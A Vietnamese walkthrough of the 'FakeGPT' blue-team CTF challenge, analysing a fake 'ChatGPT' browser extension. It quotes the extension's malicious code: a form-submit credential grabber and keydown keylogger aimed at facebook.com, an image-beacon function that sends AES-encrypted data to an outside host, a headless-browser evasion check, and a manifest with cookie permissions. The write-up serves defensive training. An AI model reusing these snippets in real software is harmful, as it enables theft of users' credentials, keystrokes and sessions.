



# FakeGPT

https://cyberdefenders.org/blueteam-ctf-challenges/fakegpt/

## Tình huống
Đội ngũ an ninh mạng của bạn đã được cảnh báo về một số hoạt động đáng ngờ trên mạng nội bộ của tổ chức. Một số nhân viên báo cáo rằng trình duyệt của họ có những hành vi bất thường sau khi cài đặt một tiện ích mở rộng mà họ tưởng là hữu ích, có tên “ChatGPT”.

Tuy nhiên, sau đó nhiều sự việc kỳ lạ bắt đầu xảy ra: các tài khoản bị xâm nhập và thông tin nhạy cảm dường như đang bị rò rỉ.

Nhiệm vụ của bạn là tiến hành phân tích kỹ lưỡng tiện ích mở rộng này và xác định các thành phần độc hại của nó.

## Cách giải
### Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

-- Thông thường, các tệp mã độc sẽ được mã hóa hoặc làm rối mã bằng nhiều kỹ thuật khác nhau nhằm gây khó khăn cho quá trình phân tích của các chuyên gia an ninh mạng.
-- Cho nên điều đầu tiên mình sẽ làm là tải 5 files về và mở hết ra 1 lượt, sau khi quan sát hết 1 lượt thì mình tìm được ở file `app.js` được đoạn target này đã bị mã hóa như sau:

```clike=
(function() {
    var _0xabc1 = function(_0x321a) {
        return _0x321a;
    };
    var _0x5eaf = function(_0x5fa1) {
        return btoa(_0x5fa1);
    };

    const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
--> Đoán được ngay là `target` được mã hóa bằng base64
--> ==Đáp án: base64==

---

### Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?
-- Nói nôm na là mình cần tìm url của trang web mà mã độc nhắm đến để đánh cắp dữ liệu
-- Decode đoạn mã base64 vừa rồi tìm được ở câu 1, mình tìm được


--> ==Đáp án: www.facebook.com==

---
### Q3: Which type of HTML element is utilized by the extension to send stolen data?

-- Các element phù hợp để mà gửi dữ liệu đánh cắp thường là các loại như sau:


-- Qủa nhiên, trong bài có một file tên là `img.gif` đồng thời mình tìm được đoạn lệnh sau ở file `app.js` nên càng chắc chắn đáp án hơn:
```clike=
  function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```
-- Đoạn code trên cho thấy `encryptedData` đã được nén vào file `img`
--> ==Đáp án: img==

---
### Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

-- Câu này kêu mình tìm dòng code điều kiện cụ thể đầu tiên trong mã khiến tiện ích mở rộng tự vô hiệu hóa
-- Để tìm được đáp án, mình sẽ vô trực tiếp file `loader.js` nhé vì thường những file có tên như này sẽ có chứa chương trình chuẩn bị và chạy mã độc
-- Mới vô là tìm được đoạn code khả nghi:
```clike= 
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
        alert("Virtual environment detected. Extension will disable itself.");
        chrome.runtime.onMessage.addListener(() => { return false; });
    }
```
-- Đoạn code trên check 1 trong 2 điều kiện đó là `máy có cài plugin` hoặc `trình duyệt có đang chạy ở chế độ headless hay không` để cảnh báo rằng extension `ChatGPT` sẽ tự động tắt đi nếu phát hiện ra máy đang chạy với `môi trường ảo`
-- Vì đề hỏi điều kiện đầu tiên nên:
-- ==Đáp án: navigator.plugins.length === 0==

---
### Q5: Which event does the extension capture to track user input submitted through forms?

-- Câu này muốn hỏi rằng tiện ích mở rộng bắt sự kiện nào để theo dõi dữ liệu người dùng gửi qua biểu mẫu?
-- Nhìn vào lại file `app.js`, mình tìm được đoạn này:
```clike=
 if (targets.indexOf(window.location.hostname) !== -1) {
        document.addEventListener('submit', function(event) {
            let form = event.target;
            let formData = new FormData(form);
            let username = formData.get('username') || formData.get('email');
            let password = formData.get('password');

            if (username && password) {
                exfiltrateCredentials(username, password);
            }
        });
 ```
 -- Đoạn code này cho thấy, khi có 1 sự kiện `submit` xảy ra (ví dụ như khi người dùng submit 1 prompt bất kì nào đó) thì dữ liệu `username` cũng như `password` của người dùng sẽ được tiện ích thu thập bằng `formData`
 -- Sau đó, mã tìm kiếm giá trị trong các trường username hoặc email, đồng thời lấy giá trị từ trường password. Nếu cả tên đăng nhập và mật khẩu đều tồn tại, chúng sẽ được chuyển đến hàm exfiltrateCredentials() để gửi ra bên ngoài.
 -- ==Đáp án: submit==
 
 ---
 
 ### Q6: Which API or method does the extension use to capture and monitor user keystrokes?

-- Tiện ích mở rộng sử dụng API hoặc phương thức nào để ghi lại và theo dõi các phím người dùng nhấn?

-- Vẫn tiếp tục tìm ở `app.js` thấy được đoạn mã sau:
```clike=
  document.addEventListener('keydown', function(event) {
            var key = event.key;
            exfiltrateData('keystroke', key);
        });
    }
```
-- Đoạn mã sử dụng phương thức `document.addEventListener()` để lắng nghe sự kiện `keydown`. Mỗi khi người dùng nhấn một phím, giá trị của phím đó sẽ được lấy thông qua thuộc tính `event.key`.

-- Sau đó, dữ liệu phím vừa nhập được truyền vào hàm `exfiltrateData('keystroke', key)` để gửi ra bên ngoài. Điều này cho thấy tiện ích đang thực hiện hành vi **keylogging**, tức là theo dõi và đánh cắp các phím người dùng đã gõ.

-- ==Đáp án: keydown==

----

### Q7: What is the domain where the extension transmits the exfiltrated data?

-- Qua câu này mình cần biết tên miền nào được sử dụng để truyền đi dữ liệu đánh cắp
-- Tiếp tục nhìn vào file `app.js`, thấy được 1 hàm gửi qua server như sau:
```clike=
 function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```
-- ==Đáp án: Mo.Elshaheedy.com==

---
### Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

-- Hàm code nào dùng để đánh cắp thông tin xác thực (bao gồm cả `username` và `password`):
-- Ở câu 5 trước đó, mình đã đề cập đến 1 hàm để kiểm tra  `username` và `password` có hợp lệ không, cùng mình xem lại nhé:
```clike=
if (targets.indexOf(window.location.hostname) !== -1) {
        document.addEventListener('submit', function(event) {
            let form = event.target;
            let formData = new FormData(form);
            let username = formData.get('username') || formData.get('email');
            let password = formData.get('password');

            if (username && password) {
                exfiltrateCredentials(username, password);
            }
        });
```
--> ==Đáp án:  exfiltrateCredentials(username, password)==

---

### Q9: Which encryption algorithm is applied to secure the data before sending?

-- Đối với câu này, vì mình đã từng xem qua một vài con `ransomeware` và mình thấy đa số những con này thường sử dụng thuật toán `AES` để mà mã hóa nên mình cũng có thể đoán sơ qua được đáp án
-- Nhưng vì để chỉ ra rõ thì cần nhìn vào file`crypto.js` có đoạn mã như sau:
```clike=
(function() {
    window.CryptoUtils = {
        encrypt: function(data) {
            const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
            const iv = CryptoJS.lib.WordArray.random(16);
            const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
            return encrypted.toString(CryptoJS.enc.Base64);
        }
    };
})();
```
-- Nói nôm na, đoạn mã tạo một hàm `encrypt()` dùng để mã hóa dữ liệu bằng thuật toán `AES` với khóa bí mật `SuperSecretKey123`. Mỗi lần mã hóa, chương trình tạo một giá trị IV ngẫu nhiên, sau đó chuyển dữ liệu đã mã hóa sang định dạng Base64 để dễ dàng gửi hoặc lưu trữ.
-- ==Đáp án: AES==

---
### Q10: What does the extension access to store or manipulate session-related data and authentication information?

-- Câu hỏi yêu cầu xác định thành phần mà tiện ích truy cập để lưu trữ hoặc thao tác với dữ liệu phiên đăng nhập và thông tin xác thực.
-- Truy cập vào file `manifest.json` vì file này thường cho biết các chức năng và quyền hạn của extension
```clike=
{
  "manifest_version": 2,
  "name": "ChatGPT",
  "version": "1.0",
  "description": "An AI-powered assistant extension.",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage",
    "webRequest",
    "webRequestBlocking",
    "cookies"
  ],
  "background": {
    "scripts": ["system/loader.js"],
    "persistent": true
  },
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["core/app.js"]
    }
  ],
  "browser_action": {
    "default_popup": "assets/ui.html"
  }
}
```
– Trong danh sách trên, quyền cookies cho phép tiện ích truy cập cookie của trình duyệt. Cookie có thể chứa các thông tin liên quan đến phiên đăng nhập như session ID, authentication token và trạng thái đăng nhập của người dùng.

– Nếu bị lạm dụng, quyền này có thể cho phép tiện ích đọc hoặc chỉnh sửa cookie, từ đó đánh cắp phiên đăng nhập và truy cập tài khoản mà không cần biết mật khẩu.

–> ==Đáp án: Cookies==

---
